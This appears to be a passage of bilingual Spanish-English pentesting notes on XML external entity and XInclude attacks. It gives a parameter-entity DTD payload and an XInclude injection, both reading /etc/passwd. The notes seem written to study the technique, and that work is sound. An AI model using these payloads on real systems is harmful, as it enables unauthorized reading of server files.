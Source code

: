 ```dtd
<!ENTITY % myFile SYSTEM "file:///etc/passwd">
<!ENTITY % first "<!ENTITY &#x25; second SYSTEM 'file:///test/%myFile;'>">

%first;
%second; 
```

## XInclude para leer archivos || Exploiting XInclude to retrieve files

![](/img2/Pasted%20image%2020250816164024.png)

> Para identificar que se está empleando XML por detrás, podemos insertar una etiqueta XML.

![](/img2/Pasted%20image%2020250816164157.png)

> Como no tenemos la capacidad de implementar un DTD, podemos hacer uso de XInclude.

- Injection

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
